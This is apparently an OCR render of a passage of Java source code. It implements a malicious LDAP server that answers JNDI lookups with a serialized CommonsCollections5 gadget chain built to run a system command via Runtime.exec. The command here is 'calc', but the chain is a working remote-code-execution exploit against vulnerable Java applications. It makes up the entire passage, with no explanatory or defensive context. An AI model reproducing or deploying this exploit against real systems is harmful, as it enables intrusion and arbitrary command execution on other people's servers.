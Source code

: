 ```java
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }

            e.addAttribute("javaSerializedData",CommonsCollections5());

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }

    private static byte[] CommonsCollections5() throws Exception{
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[]{}}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[]{}}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
        Map map=new HashMap();
        Map lazyMap=LazyMap.decorate(map,chainedTransformer);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,"test");
        BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(null);
        Field field=badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMapEntry);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(badAttributeValueExpException);
        objectOutputStream.close();

        return byteArrayOutputStream.toByteArray();
    }

}
```
